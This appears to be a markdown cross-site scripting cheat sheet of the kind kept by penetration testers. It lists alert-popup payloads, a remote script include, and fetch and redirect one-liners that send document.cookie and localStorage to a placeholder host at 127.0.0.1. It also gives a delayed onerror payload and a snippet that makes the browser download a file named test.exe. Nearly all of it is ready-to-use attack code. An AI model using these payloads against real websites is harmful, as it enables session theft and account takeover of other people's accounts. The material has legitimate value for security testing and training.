 ## Python server

`python3 -m http.server [PORT]`
`python2 -m SimpleHTTPServer [PORT]`
# Basic JavaScript popups
`<script>alert(0)</script>`
`<img src='x' onerror='alert(0)'>`
`<iframe src="javascript:alert(0)"></iframe>`
# Obtain a script from remote host - useful if there is a character limit
`<script src='http://127.0.0.1'></script>`
# Useful JavaScript to interact with specific in-page elements
`document.getElementsByTagName("Tag-name-here")`
`document.getElementsbyId("Id-here")`
`document.getElementsByClassName("Class-name-here")`
`document.getElementsByName("Name-here")`
`document.getElementsByTagNameNS("Tag-in-namespace-here")`
# Performing a get request to a third-party service
`fetch("http://127.0.0.1")`

Extracting cookies:
`fetch("http://127.0.0.1?x="+document.cookie)`

Ensuring the content is treated as a sting:
`fetch("http://127.0.0.1?x="+JSON.stringify(document.cookie))`

Encoding content which has characters that can mess with things:
`fetch("http://127.0.0.1?x="+encodeURIComponent(JSON.stringify(document.cookie)))`

In event that certain security headers are applied, the fetch method may no longer work. Instead, the below could be used to force a redirect.
`window.location.href = "http://127.0.0.1?x="+JSON.stringify(document.cookie)`  
`window.location.replace("http://127.0.0.1?x="+JSON.stringify(document.cookie))`

# Odds N' Ends

Timeout function in case in-page elements load at different times
`<img src='x' onerror=setTimeout(function(){fetch("http://127.0.0.1"))}, 5000);'>`

Accessing local storage
`encodeURIComponent(JSON.stringify(localStorage))`

Self-contained payload to download a file blob as a .exe
`function saveBlob(blob, fileName) { var a = document.createElement("a"); document.body.appendChild(a); a.style = "display: none"; var url = window.URL.createObjectURL(blob); a.href = url; a.download = fileName; a.click(); window.URL.revokeObjectURL(url); }; saveBlob(new Blob(["examplePayloadhere"], { type: 'text/plain' }), 'test.exe');`
